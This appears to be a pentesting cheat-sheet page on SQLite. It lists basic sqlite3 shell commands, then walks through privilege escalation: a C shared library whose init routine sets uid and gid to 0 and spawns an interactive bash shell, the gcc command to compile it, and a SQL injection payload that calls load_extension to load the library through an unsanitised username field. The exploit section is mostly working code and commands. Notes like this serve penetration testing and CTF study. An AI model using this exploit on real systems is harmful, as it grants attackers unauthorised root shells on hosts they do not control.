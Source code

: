 # SQLite

# Commands
```bash
# Open DB file
.open <your_file.db>

# List databases
.databases

# List tables
.tables

# Structure of table
.schema <table>
```

# Command Execution
## load_extension
Suppose we're on Linux and there's a bash script which asks for a username that will be used to activate the user.

The commands looks like this: 
```bash
/usr/bin/sqlite3 db.sqlite3 -line \'UPDATE accounts_customuser SET is_active=1 WHERE username=\"%s\";\'
```
We need to create a `.c` script that we compile into a library.
```c
// test.c
#include <stdlib.h>
#include <unistd.h>

void _init() {
    setuid(0);
    setgid(0);
    system("/bin/bash -i");
}
```
```bash
gcc -shared -fPIC -nostartfiles -o test.so test.c
```
This library will spawn an elevated shell.

For this to work we're going to create a payload that we'll feed to the script. Once the script reaches the point where the username
is used in the sql statement, a shell with elevated privileges will be spawned.
```
"+load_extension('test.so')+"
```